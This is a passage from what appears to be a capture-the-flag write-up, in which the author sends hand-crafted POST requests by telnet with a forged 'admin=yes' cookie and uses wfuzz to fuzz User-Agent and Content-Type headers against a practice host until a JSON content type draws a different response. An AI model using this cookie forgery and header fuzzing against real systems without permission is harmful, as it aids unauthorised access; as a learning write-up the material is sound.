 Did you see that? "406 Not Acceptable" instead of "405 Method Not Allowed". This is why I like to telnet and do these things manually. Using a tool, you might miss the nuance in the response code. Just to make sure that the 406 wasn't a fluke, I crafted an actual POST request with some data to ensure that the response code wasn't just because I didn't actually send any data.

Attempt #4:

```
	$ telnet admin.acme.org 80
	Trying 104.236.20.43...
	Connected to admin.acme.org.
	Escape character is '^]'.
	POST / HTTP/1.1
	Host: admin.acme.org
	Cookie: admin=yes
	Content-Length: 12

	flag=yes

	HTTP/1.1 406 Not Acceptable
	Date: Sat, 18 Nov 2017 04:55:18 GMT
	Server: Apache/2.4.18 (Ubuntu)
	Content-Length: 0
	Content-Type: text/html; charset=UTF-8
```

Now, I feel confident that crafting a POST is the right direction to go since I still receive a 406 return code, but what now is making my request "Not Acceptable". At this point, I feel like I'm on the right track, but I'm a little lost as to where to go to next. Thinking that there might be other headers I need to tamper with, for some horrible reason, I decide that I should manipulate the User-Agent header. I grabbed a bunch of user-agents from a random GitHub repo and went to town with wfuzz again.
https://github.com/nlf/browser-agents/blob/master/user_agents.txt

```
	$ wfuzz -H "User-Agent: FUZZ" -b "admin=yes" -d "flag=true" -zfile,user_agents.txt --hc 406 http://admin.acme.org/
```

User agents didn't yield and different response codes from the site so I moved onto what *should* have been a more obvious choice of manipulating Content-Type. I found a decent list of popular Content-Types on GitHub and again used wfuzz to see if I could get the application to respond differently.
https://gist.githubusercontent.com/gmetais/971ce13a1fbeebd88445/raw/c07b608facc01f1e2d276f8ce2469dff88735d4f/gzip-conf.txt

```
	$ wfuzz -H "Content-Type: FUZZ" -b "admin=yes" -d "flag=true" -zfile,gzip-conf.txt --hc 406 http://admin.acme.org/

	==================================================================
	ID	Response   Lines      Word         Chars          Payload    
	==================================================================

	00009:  C=418      0 L	       3 W	     37 Ch	  "application/json"
```
